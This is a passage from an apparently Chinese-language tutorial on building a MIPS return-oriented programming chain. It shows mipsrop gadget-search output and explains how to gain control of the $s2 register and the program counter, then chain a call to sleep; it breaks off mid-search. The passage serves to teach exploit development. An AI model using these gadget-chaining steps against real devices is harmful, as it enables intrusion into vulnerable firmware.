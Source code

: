 我们发现，这个 gadget 最后会跳到 s2 寄存器里的值的位置，所以，我下一步需要找到能控制 s2 的寄存器

通常而言，我们这里会使用 mipsrop 插件的 `mipsrop.tail()` 方法来寻找，从栈上设置寄存器的 gadget 

```
Python>mipsrop.tail()
----------------------------------------------------------------------------------------------------------------
|  Address     |  Action                                              |  Control Jump                          |
----------------------------------------------------------------------------------------------------------------
|  0x0001E598  |  move $t9,$s2                                        |  jr    $s2                             |
|  0x000F7758  |  move $t9,$s1                                        |  jr    $s1                             |
|  0x000F776C  |  move $t9,$s1                                        |  jr    $s1                             |
|  0x000F7868  |  move $t9,$s1                                        |  jr    $s1                             |
|  0x000F787C  |  move $t9,$s1                                        |  jr    $s1                             |
|  0x000F86D4  |  move $t9,$s4                                        |  jr    $s4                             |
|  0x000F8794  |  move $t9,$s5                                        |  jr    $s5                             |
|  0x00127E6C  |  move $t9,$s0                                        |  jr    $s0                             |
|  0x0012A80C  |  move $t9,$s0                                        |  jr    $s0                             |
|  0x0012A880  |  move $t9,$s0                                        |  jr    $s0                             |
|  0x0012F4A8  |  move $t9,$a1                                        |  jr    $a1                             |
|  0x0013032C  |  move $t9,$a1                                        |  jr    $a1                             |
|  0x00130344  |  move $t9,$a1                                        |  jr    $a1                             |
|  0x00132C58  |  move $t9,$a1                                        |  jr    $a1                             |
|  0x00133888  |  move $t9,$a1                                        |  jr    $a1                             |
|  0x0013733C  |  move $t9,$a1                                        |  jr    $a1                             |
|  0x00137354  |  move $t9,$a1                                        |  jr    $a1                             |
|  0x00137CDC  |  move $t9,$a1                                        |  jr    $a1                             |
|  0x00137CF4  |  move $t9,$a1                                        |  jr    $a1                             |
|  0x00139BFC  |  move $t9,$s4                                        |  jr    $s4                             |
----------------------------------------------------------------------------------------------------------------
Found 20 matching gadgets
```
如果没有合适的，我们可以尝试找在一些 "*dir" 的函数结尾来查找，有没有合适的，例如我在 readdir64 函数的末尾发现如下 gadget
![image-20201029161619764](https://sw-blog.oss-cn-hongkong.aliyuncs.com/img/image-20201029161619764.png)
这样我们就能控制 s2 寄存器也能控制 PC，下一步就是跳到 sleep, 但是单纯的跳到 sleep 是不够的，同时我们要保证执行完 sleep 后能跳到下一个 gadget ，所以我们还需要一个既能 执行 sleep 又能控制下一个 PC 地址的 gadget
看了眼寄存器，此时 我们还能控制的还挺多，例如我这里找 $a3 的寄存器
```
Python>mipsrop.find("mov $t9, $s3")
```